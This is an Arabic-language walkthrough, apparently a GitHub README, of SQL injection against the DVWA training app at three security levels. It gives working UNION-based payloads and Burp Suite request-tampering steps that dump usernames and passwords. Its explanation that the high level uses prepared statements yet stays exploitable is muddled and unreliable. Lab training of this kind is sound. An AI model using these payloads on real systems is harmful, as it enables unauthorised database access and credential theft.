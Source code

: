 # دليل شامل لاستغلال ثغرات SQL Injection في تطبيق DVWA

## مقدمة

DVWA (Damn Vulnerable Web Application) هو تطبيق ويب مصمم خصيصًا لتعليم اختبار اختراق تطبيقات الويب في بيئة آمنة وقانونية. من أهم الثغرات التي يمكن التدرب عليها في DVWA هي **ثغرات حقن أوامر SQL**، والتي تسمح للمهاجم بالتلاعب بقواعد البيانات.

هذا الدليل يغطي كيفية استغلال ثغرات SQL Injection في ثلاث مستويات أمان مختلفة:

* 🔹 **المستوى السهل (Low)**
* 🔸 **المستوى المتوسط (Medium)**
* 🔴 **المستوى الصعب (High)**

كما سنستخدم أدوات مساعدة مثل **Burp Suite** لتحليل الطلبات وتعديلها.

---

## المستوى السهل (Low)

### 1. تحليل السلوك الأساسي

ابدأ بإدخال رقم عادي مثل `1` في خانة إدخال المستخدم، ولاحظ أن التطبيق يعرض بيانات المستخدم بالمعرّف المقابل.

هذا يعني أن التطبيق ينفذ استعلام SQL بسيط مثل:

```sql
SELECT * FROM users WHERE id = '1';
```

### 2. استغلال الثغرة

للتأكد من وجود ثغرة SQL Injection، جرّب إدخال:

```sql
' OR 1=1#
```

هذا يجعل الاستعلام يصبح:

```sql
SELECT * FROM users WHERE id = '' OR 1=1#';
```

مما يعرض جميع المستخدمين.

### 3. استكشاف قاعدة البيانات

#### جلب أسماء الجداول:

```sql
' UNION SELECT table_name, null FROM information_schema.tables#
```

هذا يسمح لك بمعرفة الجداول الموجودة في قاعدة البيانات. غالبًا ستجد جدولًا باسم `users`.

#### جلب أسماء الأعمدة:

```sql
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'#
```

ستظهر أعمدة مثل `id`, `user`, `password`.

#### استخراج البيانات:

```sql
' UNION SELECT user, password FROM users#
```

وهكذا يمكنك عرض أسماء المستخدمين وكلمات المرور المخزنة.

---

## المستوى المتوسط (Medium)

### الفارق الأساسي

في هذا المستوى، يتم استخدام دالة `intval()` أو ما شابهها لحماية المدخلات، مما يمنع تمرير الأحرف مثل `'` مباشرة عبر الواجهة.

### الحل باستخدام Burp Suite

1. افتح Burp Suite.
2. فعّل **intercept** في قسم Proxy.
3. أرسل الطلب من واجهة DVWA.
4. اعترض الطلب المعد من المتصفح.
5. غيّر قيمة `id` في الطلب إلى:

```sql
1 UNION SELECT user, password FROM users#
```

6. أرسل الطلب إلى السيرفر واضغط Forward.

ستُعرض بيانات المستخدمين تمامًا كما في المستوى السهل.

---

## المستوى الصعب (High)

### ما الاختلاف؟

في هذا المستوى، يتم تصفية الطلبات ومنع أي إدخال ضار من الوصول إلى قاعدة البيانات عبر الواجهة. يتم ذلك غالبًا باستخدام الاستعلامات المعدة (Prepared Statements).

### طريقة الاستغلال

رغم التعقيد، لا تزال الثغرة موجودة في بعض الإصدارات. استخدم الخطوات التالية:

1. اذهب إلى واجهة تغيير المعرف واضغط على رابط "click here to change ID".
2. سيظهر لك نموذج جديد لإدخال المعرف.
3. فعّل Burp Suite، وكرر نفس خطوات المستوى المتوسط.
4. استبدل قيمة `id` بالحمولة:

```sql
' UNION SELECT user, password FROM users#
```

5. أرسل الطلب وتحقق من الاستجابة.

إذا كانت الثغرة ما تزال موجودة، فستحصل على نفس النتائج.

---

## خلاصة

* ✅ **ثغرات SQL Injection** تسمح للمهاجمين بالتلاعب بقواعد البيانات.
* 🛡️ تختلف صعوبة الاستغلال حسب مستوى الأمان المطبق.
* 🧰 أدوات مثل **Burp Suite** تسهل تحليل وتعديل الطلبات.

> ⚠️ تحذير: استخدم هذه الأساليب فقط في بيئات اختبار قانونية مثل DVWA.

---

📌 **المصدر والمزيد:**
[مستودع الحلول على GitHub](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION)

✍️ **إعداد وتنسيق**: Nihar Rathod (Bugbot19)
